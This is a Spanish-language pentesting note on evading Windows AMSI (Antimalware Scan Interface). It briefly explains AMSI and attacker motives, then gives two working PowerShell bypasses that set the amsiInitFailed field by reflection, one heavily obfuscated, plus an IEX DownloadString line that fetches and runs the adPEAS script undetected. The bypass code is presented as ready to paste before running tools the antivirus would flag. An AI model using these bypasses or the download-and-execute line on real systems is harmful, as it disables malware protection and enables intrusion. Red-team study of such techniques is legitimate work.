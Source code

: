 # Bypass AMSI

Tags: #Bypass #Windows #Powershell 

* [AMSI.fail](https://amsi.fail/)

AMSI (Antimalware Scan Interface) es una interfaz estándar desarrollada por Microsoft para que las soluciones antimalware de Windows puedan analizar contenido en busca de actividades maliciosas. Introducida con Windows 10, AMSI trabaja junto a otros componentes de seguridad, como Windows Defender, para ofrecer una capa adicional de protección.

De forma sencilla, AMSI permite que aplicaciones y servicios envíen contenido a un motor antimalware para ser evaluado antes de su ejecución, lo que resulta especialmente útil para analizar scripts en tiempo real. Es capaz de detectar y escanear scripts en lenguajes como PowerShell, VBScript o Ruby, incluso cuando están ofuscados.
## Por qué los ciberdelincuentes buscan evadir AMSI?

```bash 
AMSI (Antimalware Scan Interface) representa una barrera crítica para los atacantes debido a su capacidad para detectar comportamientos maliciosos en tiempo real, incluso antes de que el código se ejecute. Esto lo convierte en un objetivo prioritario para quienes intentan evadir la detección y garantizar el éxito de sus ataques, especialmente aquellos basados en scripts ofuscados o técnicas de ejecución en memoria.

- Detección en tiempo real: AMSI analiza el contenido justo antes de que se ejecute, bloqueando ataques antes de que se materialicen, lo que obliga a los ciberdelincuentes a evadir esta capa de seguridad para ejecutar su código malicioso.
    
- Análisis de scripts ofuscados: Aunque los atacantes ofuscan sus scripts para evitar las soluciones tradicionales, AMSI puede escanearlos tras ser desofuscados, cuando están en su forma original, lo que complica los intentos de ocultar intenciones maliciosas.
    
- Integración amplia: AMSI no se limita a analizar scripts; también puede escanear otros contenidos arbitrarios enviados por diversas aplicaciones y servicios, ampliando su alcance y reduciendo las posibilidades de éxito de un atacante.
    

Dada su eficacia, los ciberdelincuentes recurren a diversas técnicas para evadir AMSI, como:

- Cargar bibliotecas antiguas: Usar versiones anteriores de DLLs que no soporten AMSI para desactivar su funcionalidad.
- Manipulación de memoria: Alterar áreas de memoria relacionadas con AMSI para inutilizarlo.
- Ofuscación avanzada: Implementar métodos innovadores para intentar superar las capacidades de análisis de AMSI.
- Abusar de herramientas legítimas: Utilizar técnicas como _Living off the Land_ para ejecutar acciones maliciosas mediante herramientas legítimas que pueden eludir el escaneo o generar confianza.

La capacidad de AMSI para identificar amenazas en tiempo real lo convierte en un desafío constante para los atacantes, quienes buscan superarlo con técnicas cada vez más sofisticadas.
```

Los siguientes scripts los podemos ejecutar en la consola de  **Powershell**  antes de  ejecutar un comando que descargue un binario que detecte el antivirus como lo puede ser **adPeas**, etc... 

```powershell 
❯ S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```powershell
# Ya no nos lo detectara el Antivirus 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')
```

## Otra alternativa para el ByPass:

```Powershell 
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$me = $field.GetValue($field)
$me = $field.SetValue($null, [Boolean]"hhfff")
```